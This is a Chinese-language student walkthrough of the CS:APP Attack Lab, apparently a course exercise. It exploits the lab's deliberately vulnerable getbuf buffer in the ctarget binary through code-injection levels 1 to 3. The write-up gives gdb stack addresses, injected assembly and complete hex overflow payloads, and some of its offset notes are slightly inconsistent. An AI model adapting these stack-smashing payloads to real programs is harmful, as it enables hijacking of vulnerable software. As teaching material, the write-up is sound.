 lab之前先阅读了该lab的文档 非常关键  
http://csapp.cs.cmu.edu/3e/attacklab.pdf  
Both CTARGET and RTARGET read strings from standard input. They do so with the function getbuf  
defined below:  
```c
unsigned getbuf()
{
char buf[BUFFER_SIZE];
Gets(buf);
return 1;
}
```

正式开始之前先用命令 lscpu | grep -i byte 查看机器是大端还是小端 这会影响输入的顺序  
Byte Order:            Little Endian  
显示为小端机器 则地址顺序相比正常写法需要改变   
如地址0x123456 需要写为 56 34 12  
再将ctarget gtarget用objdump转换成汇编代码以便了解函数地址  

### ***CI level1***
汇编代码中 函数touch1 在地址0x4017c0  
且getbuf有 rsp-0x28 即40bytes  
于是在输入的第40字节后添加地址 4017c0 以替换栈中的ret值  
答案如下(一行10位 每行放一次指令)
```
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
c0 17 40
```

### ***CI level2***
与上题不同 level2 需要编写一个函数将给定的cookie值带入指定的函数   
若直接在返回插入函数地址 加上栈随机化 很难找到正确的函数入口 此时需要利用栈指针直接转跳   
利用栈指针 先找到栈指针位置  
```
Starting program: ctarget -q   
Cookie: 0x59b997fa   
Dump of assembler code for function getbuf:   
=> 0x00000000004017a8 <+0>:	sub    $0x28,%rsp   
   0x00000000004017ac <+4>:	mov    %rsp,%rdi   
   0x00000000004017af <+7>:	callq  0x401a40 <Gets>   
   0x00000000004017b4 <+12>:	mov    $0x1,%eax   
   0x00000000004017b9 <+17>:	add    $0x28,%rsp   
   0x00000000004017bd <+21>:	retq      
End of assembler dump.   
(gdb) p/x $rsp   
$1 = 0x5561dca0   
(gdb) p/x 0x5561dca0-0x28   
$2 = 0x5561dc78   
```
获得%rsp位置此时还没运行该指令分配空间 需要减去0x24 得到运行后的栈地址0x5561dc78 同样需要转换成小端地址78 dc 61 55   
运行得到的 Cookie: 0x59b997fa    
需要将cookie值(0x59b997fa)存入%rdi寄存器用于传参数给函数touch2    
再查看ctarget的汇编代码 得知touch2 的起始地址为 4017ec 即可开始写注入所需的函数   
File\:phase.s   
```assembly
pushq $0x4017ec
movq  $0x59b997fa,%rdi
retq

```
使用gcc -c选项编译该文件   
再利用objdump 反编译成机器码得到   
```
68 ec 17 40 00       	pushq  $0x4017ec   
48 c7 c7 fa 97 b9 59 	movq    $0x59b997fa,%rdi   
c3                   	retq      
```
则答案为  
```
68 ec 17 40 00
48 c7 c7 fa 97 b9 59
c3                                 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 00     
00 00 00 00 00 00 00 00 00 00    
78 dc 61 55      
```


### ***CI level3***
和level2的思路一致 先获取touch3地址 0x4018fa  
level3需要将cookie转换成ascii字符串形式   
0x59b997fa 转化为字符串为 35 39 62 39 39 37 66 61   
同时 提示给出 touch3中会导致输入被覆盖    
因此 传递的参数不能直接储存至输入 于是在栈指针下方储存   
rsp + 0x8 = 0x5561dca8    
phase3.s:
```assembly
pushq $0x4018fa
movq  $0x5561dca8,%rdi
retq

```
反汇编得到   
```
fa 18 40 00       	   pushq  $0x4018fa
48 c7 c7 a8 dc 61 55 	mov    $0x5561dca8,%rdi
c3                   	retq   
```
答案   
```
68 fa 18 40 00
48 c7 c7 a8 dc 61 55 
c3 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 00 00  
78 dc 61 55 
35 39 62 39 39 37 66 61
```
